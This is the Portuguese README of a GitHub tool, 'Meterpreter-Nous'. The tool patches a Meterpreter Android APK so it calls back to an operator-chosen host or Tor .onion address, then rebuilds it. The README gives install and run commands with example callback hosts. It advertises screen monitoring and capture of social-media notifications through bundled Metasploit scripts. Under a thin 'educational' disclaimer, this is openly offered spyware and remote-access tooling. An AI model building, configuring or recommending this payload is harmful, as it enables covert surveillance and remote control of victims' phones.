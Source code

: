
---

# Meterpreter-Nous

*"Hack the system. Reconfigure. Adapt. Overcome."*

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.

---

## [ SYSTEM CORE ]

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.
- Suporte completo a hosts `.onion` para conexões sigilosas via **Tor**.
- Compilação automatizada do APK modificado.

---

## [ SYSTEM REQUIREMENTS ]

Certifique-se de possuir as ferramentas essenciais:

- [Python 3.x](https://www.python.org/)
- [apktool](https://github.com/iBotPeaches/Apktool)
- [Java](https://www.java.com/)

---

## [ INSTALL & DEPLOY ]

Clone o repositório e navegue até o diretório:

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian
```

## [ EXECUTION MODE ]

Defina o host e a porta diretamente na CLI:

```bash
python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de execução:

**1. Configuração de um host sem Tor:**

```bash
python script.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configuração de um host .onion com Tor:**

```bash
python script.py --host exemplo.onion --porta 8080 --tor true
```

---

## [ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

- Monitoramento em tempo real da tela do Android.
- Captura de notificações de redes sociais e outros aplicativos.

Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em `msf-scripts`. Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

## [ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.
- O uso deste código é de total responsabilidade do usuário.
- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.

Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.

---

